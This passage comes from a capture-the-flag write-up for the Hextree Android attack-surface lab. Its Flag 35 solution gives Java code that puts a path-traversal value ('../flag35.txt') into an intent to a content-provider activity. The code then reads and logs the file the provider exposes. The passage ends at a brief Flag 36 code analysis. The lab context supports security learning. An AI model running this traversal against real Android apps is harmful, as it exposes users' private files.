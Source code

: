 #### Solution
lets see the uri that will be used to access `secret.txt` 
`URI: content://io.hextree.root/root_files/data/data/io.hextree.attacksurface/files/secret.txt`

lets try request with `intent.putExtra("filename","flag35.txt");`
`URI: content://io.hextree.root/root_files/data/data/io.hextree.attacksurface/files/flag35.txt`

we are looking inside folder `files` ? so to get around that we do as we normally do in any terminal, we take a step back using `..` 

```java
	Intent intent = new Intent();  
	intent.putExtra("filename","../flag35.txt"); //you want secret so dont use it  
	intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag35Activity"));  
	startActivityForResult(intent,1);
	
	if (requestCode == 1) {  
	        Log.d("Hextree","URI: "+ data.getData().toString());  
	    try {  
	        InputStream inputStream = getContentResolver().openInputStream(data.getData());  
	        BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));  
	        String line ;  
	        while ((line = reader.readLine()) != null) {  
	            Log.d("File", "[*]" + line);  
	        }  
	    } catch (FileNotFoundException e) {  
	        throw new RuntimeException(e);  
	    } catch (IOException e) {  
	        throw new RuntimeException(e);  
	    }  
	}
```

Then press done and see the magic

![alt](flag35.png)

### Flag 36
#### Code analysis
```java
if (Flag36Preferences.getBoolean("solved", false)) {
            this.f.addTag(Flag36Preferences.class);
            success(this);
        } else {
            Log.i("Flag36", "Not solved yet: \"solved=false\" in the `Flag36Preferences` shared preferences");
        }
```
